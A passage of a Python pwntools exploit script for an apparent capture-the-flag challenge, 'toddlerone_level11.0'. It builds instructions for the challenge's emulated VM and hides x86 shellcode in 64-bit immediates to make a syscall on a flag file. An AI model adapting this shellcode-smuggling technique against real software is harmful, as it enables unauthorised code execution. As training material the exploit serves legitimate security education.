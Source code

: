 ```python
c   0x2
d   0x10
s   0x40
i   0x4
f   0x8

read    0x20
write   0x10
open    0x1
exit    0x4
"""


def format_data_list(a, b, c, d, read, write, stm, open_, imm, sys, jmp):
    a = p64(a)
    b = p64(b)
    c = p64(c)
    d = p64(d)

    read = p64(read)
    write = p64(write)
    stm = p64(stm)
    open_ = p64(open_)
    imm = p64(imm)
    sys = p64(sys)
    jmp = p64(jmp)

    formatted_data_list = []
    for item in data_list:
        formatted_item = item.replace(b'\{a}', a)
        formatted_item = formatted_item.replace(b'\{b}', b)
        formatted_item = formatted_item.replace(b'\{c}', c)
        formatted_item = formatted_item.replace(b'\{d}', d)


        formatted_item = formatted_item.replace(b'\{read}', read)
        formatted_item = formatted_item.replace(b'\{write}', write)
        formatted_item = formatted_item.replace(b'\{open}', open_)

        formatted_item = formatted_item.replace(b'\{stm}', stm)
        formatted_item = formatted_item.replace(b'\{imm}', imm)
        formatted_item = formatted_item.replace(b'\{sys}', sys)
        formatted_item = formatted_item.replace(b'\{jmp}', jmp)



        formatted_data_list.append(formatted_item)
    return formatted_data_list

elf = ELF("/challenge/toddlerone_level11.0")


data_list = [
    b'\{a}\{imm}'+p64(0x808), # imm a, 0x00
    b'\{b}\{imm}'+p64(0x0cd), # imm b, 0x1f9
    b'\{a}\{stm}\{b}', # stm *a = b
    b'\{a}\{imm}'+p64(0x00), # imm a, 0x00
    p64(0x00)+b'\{jmp}'+p64(0x20), #  jmp * a

    b'\{a}\{imm}'+p64(0x900aEBE78948666A), # imm a, nop; jmp 0xa; mov rdi, rsp; push 0x66
    b'\{a}\{imm}'+p64(0x050F585A6A5E046A), # imm a, syscall; pop rax; push 0x5A; pop rsi; push 0x4 

]
```
